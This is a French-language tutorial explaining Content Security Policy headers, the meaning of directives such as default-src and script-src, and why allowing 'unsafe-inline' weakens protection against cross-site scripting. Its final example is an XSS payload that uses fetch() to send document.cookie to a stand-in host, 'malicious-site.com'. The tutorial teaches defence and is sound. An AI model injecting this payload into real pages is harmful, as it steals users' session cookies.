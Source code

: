 # Le CSP

---

Le CSP (_Content Security Policy_) est un mecanisme de sécurité web conçu pour prévenir les attaques comme le Cross-Site Scripting (XSS) et l'injection de contenu malveillant.

- Il permet aux développeurs de définir quelles sources de contenu (scripts, images, style, etc..) sont autorisées à s'exécuter sur leur site.

## Comment fonctionne CSP ?

CSP est activé via une en-tête HTTP ou une balise <code> &lt;meta&gt; </code>.
Exemple d'en-tête CSP :

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://apis.google.com; style-src 'self' 'unsafe-inline'
```

## Ce que ça signifie :

- <code> unsafe-inline </code> est une option de la CSP qui permet l'exécution de **scripts inline** (JavaScript) et de **style inline** (CSS) directement dans le HTML.

  - Exemple de **script inline** :

    - ```html
      <script>
        alert("Hello !");
      </script>
      ```
    - ```css
      <style> body {background-color: red; }</style>
      ```

- <code> default-src 'self' </code> : Par défaut, seules les ressources du même domaine sont autorisées.
- <code> script-src 'self' https://apis.google.com </code> : Les scripts ne peuvent être chargés que depuis le même domaine **('self')** et **apis.google.com**.
- <code> style-src 'self' 'unsafe-inline' </code> : Les feuilles de style doivent venir du même domaine, mais le style inline **('unsafe-inline)** est autorisé **(Pas recommandé pour la sécurité)**

## Pourquoi unsafe-inline est dangereux ?

L'autorisation de **unsafe-inline** annule en grande partie la protection CSP contre le **Cross-Site-Scripting (XSS).**
Si un attaquant injecte un script malveillant dans une page (via une faille XSS), et que **unsafe-inline** est activé, le script **s'exécutera**, compromettant la sécurité du site.

Exemple d'attaque XSS exploitant **unsafe-inline** :

```html
<script>
  fetch("https://malicious-site.com/steal?cookie=" + document.cookie);
</script>
```

Avec **unsafe-inline**, ce script serait exécuté et pourrait voler les cookies de l'utilisateur.
